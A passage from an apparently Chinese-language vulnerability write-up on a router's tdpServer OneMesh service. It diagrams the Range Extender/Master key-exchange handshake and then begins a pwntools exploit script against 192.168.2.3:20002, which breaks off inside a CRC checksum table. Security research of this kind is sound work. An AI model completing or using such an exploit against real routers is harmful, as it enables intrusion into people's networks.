    ```mermaid
   sequenceDiagram
   participant A as Range Extender(slave)
   participant B as Device B(Master)
   
   A -->> A: 构造Attach Master Request消息包
   A ->>  B: 将消息包发送给Master
   B -->> B: 调用onemesh.lua获取自己的RSA公钥
   B -->> B: 利用公钥构造Attach Master Reply消息包
   B ->>  A: 将响应包发送给Range Extender
   A -->> A: 调用onemesh.lua将获取的RSA公钥保存起来
   A -->> A: 调用onemesh.lua生成自己的RSA私钥，并用上一步的公钥加密
   A -->> A: 利用上一步的加密结果构造Slave Key Offer Request消息包
   A ->>  B: 将消息包发送给Master
   B -->> B: 使用私钥解密消息包里的slave_private_account/password
   B -->> B: 将Range Extender加入到自己的onemesh_client_list里
   Note right of B: 还会调用onemesh.lua将Range Extender的私钥保存下来
   B -->> B: 尝试更新共享内存的数据
   Note right of B: 共享内存里保存的是OneMesh网络上所有设备的信息
   B -->> B: 构造Slave Key Offer Reply消息包
   B ->>  A: 将响应包发送给Range Extender
   A -->> A: 更新自己的group_id(根据响应包里的数据)
   A -->> A: 调用onemesh.lua更新自己的onemesh状态
   ```

## 漏洞利用

```python
import socket
from struct import pack
from Crypto.Cipher import AES
import ctypes
from pwn import *

context.binary = "./tdpServer"

ip = "192.168.2.3"
port = 20002

def get_checksum(payload, length):
    table = [0, 0x77073096, 0xEE0E612C, 0x990951BA, 0x76DC419,
    0x706AF48F, 0xE963A535, 0x9E6495A3, 0xEDB8832, 0x79DCB8A4,
    0xE0D5E91E, 0x97D2D988, 0x9B64C2B, 0x7EB17CBD, 0xE7B82D07,
    0x90BF1D91, 0x1DB71064, 0x6AB020F2, 0xF3B97148, 0x84BE41DE,
    0x1ADAD47D, 0x6DDDE4EB, 0xF4D4B551, 0x83D385C7, 0x136C9856,
    0x646BA8C0, 0xFD62F97A, 0x8A65C9EC, 0x14015C4F, 0x63066CD9,
    0xFA0F3D63, 0x8D080DF5, 0x3B6E20C8, 0x4C69105E, 0xD56041E4,
    0xA2677172, 0x3C03E4D1, 0x4B04D447, 0xD20D85FD, 0xA50AB56B,
    0x35B5A8FA, 0x42B2986C, 0xDBBBC9D6, 0xACBCF940, 0x32D86CE3,
    0x45DF5C75, 0xDCD60DCF, 0xABD13D59, 0x26D930AC, 0x51DE003A,
    0xC8D75180, 0xBFD06116, 0x21B4F4B5, 0x56B3C423, 0xCFBA9599,
    0xB8BDA50F, 0x2802B89E, 0x5F058808, 0xC60CD9B2, 0xB10BE924,
    0x2F6F7C87, 0x58684C11, 0xC1611DAB, 0xB6662D3D, 0x76DC4190,
    0x1DB7106, 0x98D220BC, 0xEFD5102A, 0x71B18589, 0x6B6B51F,
    0x9FBFE4A5, 0xE8B8D433, 0x7807C9A2, 0xF00F934, 0x9609A88E,
    0xE10E9818, 0x7F6A0DBB, 0x86D3D2D, 0x91646C97, 0xE6635C01,
    0x6B6B51F4, 0x1C6C6162, 0x856530D8, 0xF262004E, 0x6C0695ED,
    0x1B01A57B, 0x8208F4C1, 0xF50FC457, 0x65B0D9C6, 0x12B7E950,
    0x8BBEB8EA, 0xFCB9887C, 0x62DD1DDF, 0x15DA2D49, 0x8CD37CF3,
    0xFBD44C65, 0x4DB26158, 0x3AB551CE, 0xA3BC0074, 0xD4BB30E2,
    0x4ADFA541, 0x3DD895D7, 0xA4D1C46D, 0xD3D6F4FB, 0x4369E96A,
    0x346ED9FC, 0xAD678846, 0xDA60B8D0, 0x44042D73, 0x33031DE5,
    0xAA0A4C5F, 0xDD0D7CC9, 0x5005713C, 0x270241AA, 0xBE0B1010,
    0xC90C2086, 0x5768B525, 0x206F85B3, 0xB966D409, 0xCE61E49F,
```